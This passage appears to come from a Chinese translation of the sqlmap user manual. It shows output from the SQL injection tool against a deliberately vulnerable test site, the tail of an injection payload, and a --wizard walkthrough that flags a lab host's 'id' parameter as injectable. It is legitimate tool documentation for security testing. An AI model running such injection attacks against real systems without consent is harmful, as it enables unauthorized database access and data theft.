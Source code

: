 ```shell
26d58446f634454616a4c647a6c6a69566e584e454c64666f6861466e697a5069,0x716a786a71),
NULL,NULL-- -
---
[xx:xx:26] [INFO] the back-end DBMS is MySQL
[xx:xx:26] [INFO] fetching banner
web application technology: Nginx, PHP 5.3.10
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL 5
banner:    '5.1.73-0ubuntu0.10.04.1'
[xx:xx:26] [INFO] fetched data logged to text files under '/home/stamparm/.sqlmap/output/testphp.vulnweb.com'
sqlmap-shell> exit
```

## 适合初学者使用的向导界面

开关：`--wizard`

sqlmap 为初学者提供了一个向导界面，它使用包含尽可能少的问题的简单工作流。如果用户输入目标 URL 并使用了默认设置（例如：按 `Enter`），则应该在工作流结束时正确设置 sqlmap 运行环境。

针对 Microsoft SQL Server 目标的示例：

```shell
$ python sqlmap.py --wizard

    sqlmap/1.0-dev-2defc30 - automatic SQL injection and database takeover tool
    http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual
 consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not respon
sible for any misuse or damage caused by this program

[*] starting at xx:xx:26

Please enter full target URL (-u): http://192.168.21.129/sqlmap/mssql/iis/get_in
t.asp?id=1
POST data (--data) [Enter for None]:
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 1
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Smart
[3] All
> 1

sqlmap is running, please wait..

heuristic (parsing) test showed that the back-end DBMS could be 'Microsoft SQL S
erver'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'Microsoft SQL Server' extending provided l
evel (1) and risk (1)? [Y/n] Y
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any
)? [y/N] N
sqlmap identified the following injection points with a total of 25 HTTP(s) requ
ests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
```